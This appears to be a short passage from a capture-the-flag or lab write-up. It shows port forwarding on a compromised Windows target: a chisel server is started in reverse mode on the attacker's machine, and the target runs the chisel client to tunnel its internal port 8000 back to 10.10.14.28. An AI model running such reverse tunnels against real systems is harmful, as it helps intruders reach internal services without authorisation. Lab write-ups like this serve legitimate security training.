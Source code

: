 ![screenshot](/assets/images/flight21.png)

#### Port Forwarding within the target 

Port forwarding port 8000 using `chisel`

```sh
chisel server --reverse -p 8001
```

And running the client on the target machine

```sh
.\chisel.exe client 10.10.14.28:8001 R:8000:127.0.0.1:8000
```

`C:\inetpub\Development`
